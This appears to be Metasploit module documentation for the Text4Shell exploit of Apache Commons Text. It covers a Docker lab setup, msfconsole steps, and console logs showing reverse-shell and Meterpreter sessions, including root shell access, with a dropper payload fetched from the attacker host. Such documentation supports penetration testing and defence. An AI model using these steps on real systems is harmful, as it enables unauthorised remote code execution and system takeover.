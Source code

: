 ## Vulnerable Application

This exploit takes advantage of the StringSubstitutor interpolator class,
which is included in the Commons Text library. A default interpolator
allows for string lookups that can lead to Remote Code Execution. This
is due to a logic flaw that makes the “script”, “dns” and “url” lookup
keys interpolated by default, as opposed to what it should be, according
to the documentation of the StringLookupFactory class. Those keys allow
an attacker to execute arbitrary code via lookups primarily using the
"script" key.

In order to exploit the vulnerabilities, the following requirements must
be met:

    Run a version of Apache Commons Text from version 1.5 to 1.9
    Use the StringSubstitutor interpolator
    Target should run JDK < 15

## Setup
1. `git clone https://github.com/karthikuj/cve-2022-42889-text4shell-docker`
1. `cd cve-2022-42889-text4shell-docker`
1. `mvn clean install`
1. `docker build --tag=text4shell .`
1. `docker run -p 80:8080 text4shell`
1. Vulnerable application now running at port 8080 on docker image's ip address

## Verification Steps
1. Setup the application
1. Start msfconsole
1. Do: `use apache_commons_text4shell`
1. Do: `set RHOST <docker ip>`
1. Do: `set RPORT 8080`
1. Do: `set TARGETURI /text4shell/attack`
1. Do: `set PARAM search`
1. Do: `set LHOST docker0`
1. Do: `run`

## Options

### PARAM
The parameter vulnerable to the exploit.

### METHOD
The HTTP method to use. Default: `GET`

### TARGETURI
The URI to target. Default: `/`

## Scenarios

### Apache Commons Text 1.8 on Alpine Linux v3.9

Check:
```
msf6 > use exploit/multi/http/apache_commons_text4shell
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_commons_text4shell) > set lhost docker0
lhost => 172.17.0.1
msf6 exploit(multi/http/apache_commons_text4shell) > set rhost 172.17.0.2
rhost => 172.17.0.2
msf6 exploit(multi/http/apache_commons_text4shell) > set rport 8080
rport => 8080
msf6 exploit(multi/http/apache_commons_text4shell) > set targeturi /text4shell/attack
targeturi => /text4shell/attack
msf6 exploit(multi/http/apache_commons_text4shell) > set param search
param => search
msf6 exploit(multi/http/apache_commons_text4shell) > check

[+] 172.17.0.2:8080 - The target is vulnerable. Successfully tested command injection.
```

Target: java
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 0
target => 0
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/cuGgfHN/
[*] Sending stage (57692 bytes) to 172.17.0.2
[*] Meterpreter session 16 opened (172.17.0.1:4444 -> 172.17.0.2:39832) at 2023-12-23 23:03:31 +0530
[*] Server stopped.

meterpreter >
```

Target: Linux Command
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 3
target => 3
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Command shell session 17 opened (172.17.0.1:4444 -> 172.17.0.2:36446) at 2023-12-23 23:04:10 +0530

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Target: Linux Dropper
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 4
target => 4
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/L8kRU1E8O/
[*] Client 172.17.0.2 requested /L8kRU1E8O/
[*] Sending payload to 172.17.0.2
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 18 opened (172.17.0.1:4444 -> 172.17.0.2:39580) at 2023-12-23 23:04:35 +0530
[*] Server stopped.

meterpreter >
```
